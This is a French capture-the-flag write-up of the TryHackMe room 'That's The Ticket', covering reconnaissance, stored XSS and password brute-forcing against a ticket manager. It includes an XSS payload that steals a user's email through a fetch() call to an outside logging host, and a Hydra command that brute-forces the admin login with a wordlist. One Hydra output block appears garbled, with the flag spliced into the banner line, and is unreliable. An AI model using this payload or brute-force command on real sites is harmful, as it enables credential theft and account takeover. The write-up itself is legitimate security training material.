# That's The Ticket #

## Task 1 Lab Information ##  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.106.15 ticket.thm' >> /etc/hosts" 
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A ticket.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-30 21:00 CEST
Nmap scan report for ticket.thm (10.10.106.15)
Host is up (0.040s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bf:c3:9c:99:2c:c4:e2:d9:20:33:d1:3c:dc:01:48:d2 (RSA)
|   256 08:20:c2:73:c7:c5:d7:a7:ef:02:09:11:fc:85:a8:e2 (ECDSA)
|_  256 1f:51:68:2b:5e:99:57:4c:b7:40:15:05:74:d0:0d:9b (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Ticket Manager > Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/30%OT=22%CT=1%CU=30569%PV=Y%DS=2%DC=T%G=Y%TM=617D96
OS:9E%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST
OS:11NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   33.06 ms 10.9.0.1
2   37.30 ms ticket.thm (10.10.106.15)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.01 seconds

```

Nmap nous détecte qu'il y a 2 services qui sont : 
Le service SSH sur le port 22.  
Le service HTTP sur le port 80.  

    

Sur la page principale on a choix entre s'enregistrer ou se connecter.   

    

On s'enregistre un nouveau utilisateur.   

    

Une fois enregistré on peut créer un ticket.  

  

On vérifie si le site n'est pas vulnérable au script XSS.  

  

Le site est vulnérable au script XSS.  

  

Cet exercice nous donne un outils pour écouter le DNS et les requêtes HTTP.  

   
   

En mettant le lien de notre outils on obtient un retour donc ça fonctionne.  

   

```js
</textarea>
<script>
var email = document.getElementById("email").innerHTML;
email = email.replace('@', 'X')
email = email.replace('.', 'Y')
fetch('http://'+email+'.c225795c9f12586a2effa88037fa268c.log.tryhackme.tech');
</script>
<textarea>
```

On dit d'envoyer l'émail sur le site qui écoute le dns.  

   

Sur la dernière requête on trouve l'adresse mail qu'il faut décoder car on a remplace x par @ et y par .  

**What is IT Supports email address?**

adminaccountxitsupportythm   
adminaccount@itsupport.thm   

L'adresse mail est : adminaccount@itsupport.thm    

**Admin users password**  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l adminaccount@itsupport.thm -P /usr/share/wordlists/rockyou.txt ticket.thm http-post-form "/login:email=^USER^&password=^PASS^&Login=Login:Invalid email / password combination" -V
Hydra v9.1 (c) 2020 by van Hauser/THC & David MacTHM{6804f45260135ec8418da2d906328473}t@itsupport.thm" - pass "hottie" - 62 of 14344432 [child 11] (0/33)
[80][http-post-form] host: ticket.thm   login: adminaccount@itsupport.thm   password: 123123
[ERROR] the target is using HTTP auth, not a web form, received HTTP error code 401. Use module "http-get" instead.
[ERROR] the target is using HTTP auth, not a web form, received HTTP error code 401. Use module "http-get" instead.
...
```

On brute force le mot de passe.   
Le mot de passe est : 123123  

**Flag inside Ticket 1**

   
  

On se connecte sur le compte admin avec les identifiants : adminaccount@itsupport.thm:123123  
On trouve le flag dans le 1 er ticket.   
Le flag est :  THM{6804f45260135ec8418da2d906328473}